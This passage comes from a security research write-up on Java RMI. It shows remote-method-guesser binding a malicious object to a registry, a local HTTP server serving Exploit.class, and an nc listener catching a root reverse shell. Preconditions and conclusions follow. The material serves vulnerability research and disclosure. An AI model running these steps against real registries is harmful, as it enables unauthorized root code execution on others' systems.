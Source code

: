 The following listing shows an successful execution against a registry running with the above mentioned arguments:

```java
[qtc@kali remote-method-guesser]$ rmg 127.0.0.1 1099 new http://127.0.0.1:8000/ Exploit
[+] Binding name when-all-stars-align
[+] 
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.
[+]
[+] 	RMI object tries to connect to different remote host: 127.0.1.1.
[+] 		Redirecting the connection back to 127.0.0.1... 
[+] 		This is done for all further requests. This message is not shown again. 

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [11/Feb/2021 07:35:37] "GET /Exploit.class HTTP/1.1" 200 -

[qtc@kali ~]$ nc -vlp 4446
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4446
Ncat: Listening on 0.0.0.0:4446
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:43152.
id
uid=0(root) gid=0(root) groups=0(root)
```

As one can see, in the case then all stars align, you can get code execution using this technique. However,
here are again the three restrictions:

1. The attack needs to be executed from localhost (the localhost bypass (CVE-2019-2684) does not help here).
2. The registry has to accept arbitrary objects during deserialization.
3. The registry needs to run with a security policy which allows access to ``sun`` packages during
   deserialization.


### Conclusion

----

As demonstrated in this document, ``UnicastRemoteObject`` is a very interesting class that can be used to export
``RemoteObjects`` in a different security context, by abusing it's ``readObject`` method. However, the standard
library only provides a few classes that extend ``UnicastRemoteObject`` and non of them can be exploited without
other conditions that need to be fulfilled.

Beside the standard library, no other projects were investigated for possible attack surface. With access to the codebase
of your target, it definitely makes sense to look out for interesting classes that extend ``UnicastRemoteObject``.
Especially classes, that use the random assigned ``ObjID`` of ``UnicastRemoteObject`` as a session variable could be
completely broken by using the above mentioned technique.

Currently, none of the above mentioned ``UnicastRemoteObjects`` is implemented in *rmg*. As the probability of a vulnerable
endpoint is kind of low, this feature is not that that interesting. However, it may be added in future.
